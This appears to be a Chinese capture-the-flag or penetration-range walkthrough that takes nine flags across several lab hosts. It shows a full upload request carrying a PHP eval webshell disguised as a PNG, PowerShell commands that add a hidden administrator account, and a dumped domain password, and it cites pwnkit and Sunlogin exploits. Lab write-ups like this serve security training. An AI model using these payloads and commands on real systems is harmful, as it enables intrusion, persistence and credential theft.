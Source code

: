 ## 打靶过程

`56.47.33.65`的80端口开了，但第一步就被卡住了

direarch扫不出uploadimg.php，字典里没有，蚌埠住了。

强行往字典里加入uploadimg.php

![image-20231020212449582](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020212449582.png)

之后可以上传文件

payload

```bash
POST /uploadimg.php HTTP/1.1
Host: 56.47.33.65
Content-Length: 521
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://56.47.33.65
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2iayKMiPictIfBfX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://56.47.33.65/uploadimg_form.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: __51cke__=; PHPSESSID=l09p44n9c5cfr9nu0vbfj24ean; UserName=1234; PassWord=81dc9bdb52d04dc20036dbd8313ed055; __tins__713776=%7B%22sid%22%3A%201697806648593%2C%20%22vd%22%3A%2012%2C%20%22expires%22%3A%201697809425691%7D; __51laig__=12
Connection: close

------WebKitFormBoundary2iayKMiPictIfBfX
Content-Disposition: form-data; name="g_fu_image[]"; filename="1.phtml"
Content-Type: image/png

PNG

<?php eval($_POST[Ki1ro]);phpinfo();?>
------WebKitFormBoundary2iayKMiPictIfBfX
Content-Disposition: form-data; name="Submit"

æäº¤
------WebKitFormBoundary2iayKMiPictIfBfX
Content-Disposition: form-data; name="noshuiyin"


------WebKitFormBoundary2iayKMiPictIfBfX
Content-Disposition: form-data; name="imgid"


------WebKitFormBoundary2iayKMiPictIfBfX--
```

## flag1 （56.47.33.65）

蚁剑连接，获取flag

![image-20231020215106433](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020215106433.png)

后台有360

使用**Powershell添加管理员用户**

```bash
New-LocalUser Ki1ro -Password (ConvertTo-SecureString -String 'pass!@#!23' -AsPlainText -Force)
Add-LocalGroupMember -Group "administrators" -Member "Ki1ro"
```

![image-20231020215855919](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020215855919.png)

rdp上去看到路由

![image-20231023091902455](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231023091902455.png)

fscan扫

![image-20231023091915779](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231023091915779.png)

通达OA

上传webshell，拿flag

## flag2 （192.168.50.30）

![image-20231023092136332](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231023092136332.png)

## flag3 （192.168.51.53）

向日葵rce

![image-20231023111113817](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231023111113817.png)



## flag4 （192.168.50.40）

扫到

![](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231023113226217.png)

pwnkit提权

![image-20231023113710499](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231023113710499.png)

## flag5 （56.47.33.75）

pwnkit提权

![image-20231023122600984](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231023122600984.png)

## flag6 (192.168.51.33)

smb密码爆破（没有他的密码表基本很难爆出来）

psexec.py连接

获取flag

![image-20231023130658723](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231023130658723.png)

域渗透

bj.jyj.com

## flag7(192.168.51.44)

![image-20231026121858417](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231026121858417.png)

```
* Username : sysadmin
* Domain   : BJ
* Password : KJidkoljlnb#4.
```

## flag8 (192.168.100.50)

![image-20231026122326666](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231026122326666.png)

## flag9 (192.168.100.100)

![image-20231026123927016](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231026123927016.png)
